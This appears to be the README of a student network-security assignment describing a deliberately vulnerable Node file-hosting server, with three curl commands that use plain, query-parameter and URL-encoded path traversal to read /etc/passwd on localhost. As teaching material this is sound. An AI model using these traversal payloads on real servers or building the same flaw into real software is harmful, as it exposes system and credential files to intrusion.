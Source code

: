 # A01:2021-Broken Access Control - CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')

The following codebase is a webserver(file hosting) built on Node that is vulnerable to **Path Traversal** attacks. Use the following commands for the attack:

```bash
curl --path-as-is "http://localhost:3000/../../../../../../../../../etc/passwd"

curl --path-as-is "http://localhost:3000/?file=/../../../../../../../../../etc/passwd"

curl --path-as-is "http://localhost:3000/?file=%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"
```

## Student Details:
Name: Suhas K S
Roll No.: 181CO253
Reg No.: 181486

## Course Details:
Course: Network Security
Course Code: CS463
Course Instructor: Prof. Mahendra Pratap Singh
